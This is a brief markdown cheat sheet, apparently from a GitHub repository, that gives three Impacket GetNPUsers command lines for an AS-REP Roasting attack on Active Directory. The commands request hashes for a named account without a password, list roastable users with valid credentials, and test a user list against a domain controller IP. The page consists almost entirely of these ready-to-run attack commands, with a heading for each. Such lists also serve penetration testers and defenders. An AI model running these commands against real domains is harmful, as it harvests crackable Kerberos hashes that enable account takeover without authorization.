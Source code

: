## Use this impacket module to perform an ASREP-Roasting attack

#### 1) Impacket-GetNPUsers DOMAIN.COM/USERNAME -no-pass (ASREPRoastable account)

#### 2) Impacket-GetNPUsers DOMAIN.COM/USERNAME:PASSWORD (Request for ASREPRoastable Users within the domain)

#### 3) GetNPUsers.py DOMAIN.local/ -no-pass -usersfile users.txt -dc-ip DC_IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN' (Check a list of valid users that are ASREPRoastable)
